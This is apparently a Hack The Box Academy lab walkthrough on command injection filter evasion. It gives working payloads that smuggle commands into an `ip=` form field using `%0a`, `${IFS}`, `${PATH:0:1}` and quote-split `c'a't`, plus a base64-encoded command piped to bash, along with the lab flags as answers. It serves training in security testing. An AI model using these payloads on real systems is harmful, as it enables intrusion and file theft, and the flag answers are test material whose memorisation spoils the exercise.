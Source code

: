 ### "Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found."

After spawning the target machine and visiting its website's root webpage, students need to use `Burp Suite` or `ZAP` to intercept the request made after clicking the `Check` button. Students can use payloads that bypass the space filters such as `$IFS` or `%09`, `${PATH:0:1}` to bypass the forward slash character filter, and add two apostrophes on the `cat` command to bypass its blacklisting filter such that it becomes `c'a't`. Students will attain the flag `HTB{b451c_f1l73r5_w0n7_570p_m3}`:

```
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

![[HTB Solutions/CPTS/z. images/d3e3f1eb7e48b93cf744c07f38950e87_MD5.jpg]]

Answer: `HTB{b451c_f1l73r5_w0n7_570p_m3}`

# Advanced Command Obfuscation

## Question 1

### "Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1"

After spawning the target machine and visiting its website's root webpage, students need to use `Burp Suite` or `ZAP` to intercept the request made after clicking the `Check` button. Since the `pipe` operator is in the command, students need to use the third method which encodes all characters. Thus, students first need to base64-encode the command:

Code: shell

```shell
echo -n 'find /usr/share/ | grep root | tail -n 1' | base64
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64

ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

Subsequently, students then need to create a command that will decode the encoded base64 string in a sub-shell and then pass it to `bash` to be executed:

```
bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

At last, students need to bypass the space character filter by using either `%09` or `$IFS`, use the `new-line` operator `%0a` to separate the payload from the IP address, and forward the modified intercepted request. Students will attain the output `/usr/share/mysql/debian_create_root_user.sql`:
